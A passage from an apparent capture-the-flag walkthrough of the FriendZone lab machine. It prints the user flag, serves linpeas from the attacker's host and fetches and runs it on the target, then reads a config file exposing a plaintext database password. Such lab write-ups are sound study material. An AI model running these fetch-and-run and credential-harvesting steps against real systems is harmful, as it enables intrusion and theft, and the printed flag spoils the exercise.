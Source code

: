 ![[FriendZone-15.png]]

And then we capture the user flag.

```
www-data@FriendZone:/var/www/admin$ cd /
www-data@FriendZone:/$ ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
www-data@FriendZone:/$ cd home
www-data@FriendZone:/home$ ls
friend
www-data@FriendZone:/home$ cd friend/
www-data@FriendZone:/home/friend$ ls
user.txt
www-data@FriendZone:/home/friend$ cat user.txt 
ad2124a288ce32a7410164ea5d3d2d61

```

![[FriendZone-16.png]]

### Privilege Escalation

#### Enumeration

##### Linpeas

```bash
# kali
wget https://raw.githubusercontent.com/3ct0s/PEASS-ng/master/linPEAS/linpeas.sh
python3 -m http.server 80
```

```bash
# rhost
cd /tmp
wget http://10.10.14.8/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

But we did't find useful information.

##### Check the file Manually

```bash
cd var/www
cat mysql_data.conf
```

```
www-data@FriendZone:/$ cd var/www
www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ

```

